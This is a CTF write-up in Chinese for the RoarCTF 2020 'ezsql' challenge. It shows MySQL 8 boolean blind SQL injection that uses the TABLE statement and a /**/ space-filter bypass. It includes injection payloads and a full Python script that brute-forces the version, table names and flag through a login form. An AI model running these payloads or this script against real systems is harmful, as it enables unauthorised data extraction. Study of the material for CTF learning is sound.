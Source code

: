 ## 2020-RoarCTF-ezsql

### 题目考点

```
1. mysql8 特性
2. Sql 布尔盲注
```

### 题目writeup

简单测试，发现存在两种回显，用户名为admin时，返回 password error，而用户名随便填写，返回username error。猜测可能存在布尔盲注，`gml'or 1#`发现空格被过滤。`gml'or/**/1#`返回 password error，找到了注入点。

进一步尝试注入，发现过滤了 select、insert、union、execute、prepare、where 等，并且无法绕过，所以无法查询出数据。但是可以通过 `database()`注出数据库名是 `ctf`，通过`version()`发现版本是 8.0.22。

联想到 mysql 8.0.19 更新的新特性 `table`命令，但是 table 命令无法按列查询，也不支持 where（where也被过滤）只能查询出整个表数据。尝试注出 `information_schema.tables`的数据翻下文档发现这个表有21列，并且第一列是`def`固定，第二列是数据库名字。`table`支持limit，但是没有 where，我们可以通过`order by CREATE_TIME dsec`把用户自己建的表查到最前面。然后通过盲注就可以注出`ctf`第一个表是 `admin`，第二个表是`f11114g`。payload：（空格替换一下）

```
gml' or (("def","ctf","f","",1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1)<(table information_schema.tables order by CREATE_TIME DESC limit 1,1))#
```

这里需要注意 mysql 直接比较，可能会有不区分大小写的问题。表名只有两个字母，所以最多试4次即可。

因为 table 命令不需字段名，所以我们尝试直接获取 f11114g 表的内容。测试一下发现

```
gml'or ((' ')<(table f11114g limit 0,1))#
```

返回password error。而

```
gml'or ((' ',' ')<(table f11114g limit 0,1))#
```

返回 username error。可以初步判断这个表只有一列。（也可以用 order by）

尝试利用注表名的方式注入，发现字符串比较涉及特殊字符，bug 很多。因为 f11114g 表只有一列，可以用 hex + ascii 进行编码从而注入：

```
gml'or (ascii(substr(hex((table f11114g limit 0,1)),1,1)))=65
```

注入出第一行数据是`This_is_not_Flag`，继续注第二行数据，可以得到 flag。

exp：

```python
import requests
import string

session = requests.Session()

url = "http://oj.moxiaoxi.info:28001/login.php"
# url = "http://localhost:3334/login.php"

def req(username, password):
    paramsPost = {"password": password, "username": username}
    headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:45.0) Gecko/20100101 Firefox/45.0",
               "Connection": "close", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    # response = session.post(url, data=paramsPost, headers=headers, proxies={'http': 'http://127.0.0.1:8080'})
    response = session.post(url, data=paramsPost, headers=headers)

    return response.content


def get_version():
    sql = "(ascii(substr(version(),{i},1)))={val}"
    tem = "gml' or (%s)#"
    data = ""
    for i in range(1, 50):
        for c in map(ord, string.printable):
            exp = tem % (sql.format(i=i, val=c))
            exp = exp.replace(" ", "/**/")
            content = req(exp, 'gml')
            if "password error!" in content:
                data += chr(c)
                print data
                break


def get_table():
    # table_name: f11114g
    dict = map(ord, string.printable)
    dict.sort()
    dict = map(chr, dict)
    dict.remove('"')
    dict.remove('\\')
    dict.remove(' ')
    data = ""
    sql = '''gml' or (("def","ctf","%s","",1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1)<(table information_schema.tables order by TABLE_SCHEMA limit 1,1))#'''
    for i in range(50):
        for c in dict:
            exp = sql % (data + c)
            exp = exp.replace(" ", "/**/")
            content = req(exp, 'gml')
            if "username error!" in content:
                data += dict[dict.index(c)-1]
                print data
                break

def get_flag():
    sql = "(ascii(substr(hex((table f11114g limit 1,1)),{i},1)))={val}"
    tem = "gml' or (%s)#"
    data = ""
    for i in range(1,85):
        for c in map(ord, string.printable):
            exp = tem % (sql.format(i=i, val=c))
            exp = exp.replace(" ", "/**/")
            content = req(exp, 'gml')
            if "password error!" in content:
                data += chr(c)
                print data
                break
    print data.decode("hex")

def test():
    # exp = '''gml' or (("def","ctf","ab"," ",1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1)<(table information_schema.tables order by CREATE_TIME DESC limit 4,1))#'''
    exp = '''gml';create database test#'''
    exp = exp.replace(" ", "/**/")
    print req(exp, 'gml')


if __name__ == "__main__":
    # test()
    get_flag()
    # get_table()
    # get_version()

```





